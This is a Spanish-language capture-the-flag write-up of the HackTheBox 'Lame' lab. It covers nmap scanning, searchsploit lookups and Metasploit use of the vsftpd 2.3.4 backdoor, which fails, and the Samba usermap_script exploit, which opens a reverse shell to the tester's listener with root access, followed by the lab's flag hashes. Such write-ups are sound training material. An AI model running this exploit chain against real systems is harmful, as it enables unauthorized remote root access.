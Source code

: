 # Lame

Plataforma: HackTheBox
OS: Linux
Level: Easy
Status: Done
Complete: Yes
EJPT: yes
Created time: 25 de enero de 2025 21:13
IP: 10.10.10.3

## Recopilación de información

<aside>
💡 Reconocimiento general

</aside>

Que maquina es

```bash
whichSystem.py 10.10.10.3

	10.10.10.3 (ttl -> 63): Linux
```

### **Escaneo de puertos**

Comenzamos con un escaneo para identificar que puertos están abiertos.

---

```bash
sudo nmap -p- --open -T5 -sS --min-rate 5000 -n -Pn -vvv 10.10.10.3 -oG targeted

PORT     STATE SERVICE      REASON
21/tcp   open  ftp          syn-ack ttl 63
22/tcp   open  ssh          syn-ack ttl 63
139/tcp  open  netbios-ssn  syn-ack ttl 63
445/tcp  open  microsoft-ds syn-ack ttl 63
3632/tcp open  distccd      syn-ack ttl 63
```

### **Enumeración de servicios**

Una vez listado los puertos accesibles, procederemos a realizar la enumeración de servicios para su posterior identificación de vulnerabilidades.

---

```bash
❯ sudo nmap -p21,22,139,445,3632 -sCV 10.10.10.3 -oN targeted

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.13
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h30m19s, deviation: 3h32m08s, median: 18s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2025-01-26T10:03:49-05:00
|_smb2-time: Protocol negotiation failed (SMB2)

```

- **Identificación de vulnerabilidades**
    - 21/tcp   open  ftp         vsftpd 2.3.4
    - 22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1
    - 139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    - 445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
    - 3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))

- **Enumeramos el puerto 21**
    
    Buscamos vulnerabilidades para la version vsftpd 2.3.4
    
    ```bash
    searchsploit vsftpd 2.3.4
    
    vsftpd 2.3.4 - Backdoor Command Execution                                                                                                               | unix/remote/49757.py
    vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                                                                  | unix/remote/17491.rb
    
    ```
    
    Hay un exploit para metasploit. Lo probamos en la Explotacion 1
    
- **Enumeramos el puerto 445**
    
    Buscamos si hay vulnerabilidades para el servidor samba 3.0.20
    
    ```bash
    searchsploit samba 3.0.20
    Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                                                        | unix/remote/16320.rb
    ```
    
    Encontramos uno para matesaploit
    
    Lo probamos en la Explotación 2
    

## Explotación

<aside>
💡 Probamos diferentes accesos

</aside>

### Explotación 1

```bash
msfconsole >
msf6 > search vsftpd 2.3.4

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution

Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor

msf6 > use 0
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)

Exploit target:

   Id  Name
   --  ----
   0   Automatic
   
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST 10.10.10.3
RHOST => 10.10.10.3
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

Tras la explotación vemos que no ha funcionado.

### Explotación 2

```bash
msf6 > search samba 3.0.20

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution

msf6 > use 0
msf6 > show options
msf6 > set RHOST 10.10.10.3
msf6 > set LHOST 10.10.16.13
msf6 > run

[*] Started reverse TCP handler on 10.10.16.13:4444 
[*] Command shell session 1 opened (10.10.16.13:4444 -> 10.10.10.3:39492) at 2025-01-26 16:23:42 +0100
shell
[*] Trying to find binary 'python' on the target machine
[*] Found python at /usr/bin/python
[*] Using `python` to pop up an interactive shell
[*] Trying to find binary 'bash' on the target machine
[*] Found bash at /bin/bash
back
root@lame:/# ls
```

Encontramos las dos flags en :

- /home/makis:
    
    ```bash
    root@lame:/home/makis# cat user.txt
    cat user.txt
    2ab71489edb8daf29c986bec0ee662ad
    ```
    
- /root
    
    ```bash
    root@lame:/root# cat root.txt
    cat root.txt
    d7589c76e629453b1588bce4ee7f01af
    ```
    

## Conclusión

<aside>
💡 Maquina fácil sin escalada

</aside>